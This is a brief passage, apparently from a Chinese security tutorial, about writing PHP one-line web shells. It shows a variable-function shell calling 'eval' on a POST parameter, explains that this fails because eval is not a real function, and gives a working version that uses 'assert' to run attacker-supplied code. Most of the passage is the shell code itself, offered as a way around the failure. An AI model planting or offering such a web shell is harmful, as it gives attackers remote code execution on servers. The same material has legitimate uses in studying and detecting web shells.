 **第一点是什么意思呢？**  
例如：

| 

1

2

3

4

 | 

`<?php`

 `$a` `=` `"eval"``;`

 `$a``(``$_POST``[123]);`

`?>`

 |

  
**看上去没毛病，但是执行起来：**  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a31gUp9a8Mp9ibwjf50icH4U1ffs9dwmh1IUTptcJzgkGSbDCuY9qWAdyg/640?wx_fmt=png)

**原因就是 eval 根本不是函数，用 assert 代替即可：**  

| 

1

2

3

4

 | 

`<?php`

 `$a` `=` `"assert"``;`

 `$a``(``$_POST``[123]);`

`?>`

 |

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3T45gJcTOCAepibeuEgENcJbiaNw2nibZhHWCibibO1ibwemoC6qkdw6CaJDg/640?wx_fmt=png)

两者差异请参考百度关键字: php 中 eval 和 assert 的区别

  